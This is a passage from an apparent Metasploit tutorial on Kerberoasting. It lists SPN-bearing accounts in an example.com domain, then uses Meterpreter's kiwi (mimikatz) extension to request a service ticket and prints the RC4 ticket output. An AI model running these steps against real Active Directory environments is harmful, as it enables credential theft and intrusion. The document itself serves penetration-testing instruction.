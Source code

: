 ```
 Name                  Attributes
 ----                  ----------
 cn                    CAITLIN_CAMPBELL
 samaccountname        CAITLIN_CAMPBELL
 serviceprincipalname  ftp/BDEWSECS1000000

CN=NETTIE_BURNS OU=ITS OU=Stage DC=example DC=com
=================================================

 Name                  Attributes
 ----                  ----------
 cn                    ALBERTO_OLSEN
 samaccountname        ALBERTO_OLSEN
 serviceprincipalname  https/TSTWWKS1000002

CN=LESSIE_PHILLIPS OU=Test OU=GOO OU=Stage DC=example DC=com
============================================================

```

Great, we now have a couple SPNs to move forward with.

**Request Service Tickets - with kiwi**

If you have a running Meterpreter session you can request a Service Ticket using the kiwi extension and one of the SPNs
found above:

```
meterpreter > load kiwi
Loading extension kiwi...

  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > kiwi_cmd kerberos::ask /target:https/TSTWLPT1000000
Asking for: https/TSTWLPT1000000
   * Ticket Encryption Type & kvno not representative at screen

	   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
	   Service Name (02) : https ; TSTWLPT1000000 ; @ EXAMPLE.COM
	   Target Name  (02) : https ; TSTWLPT1000000 ; @ EXAMPLE.COM
	   Client Name  (01) : Administrator ; @ EXAMPLE.COM
	   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
	   Session Key       : 0x00000017 - rc4_hmac_nt
	     07137dd7d5b801ef8b05c73380b18701
	   Ticket            : 0x00000017 - rc4_hmac_nt       ; kvno = 0	[...]

```
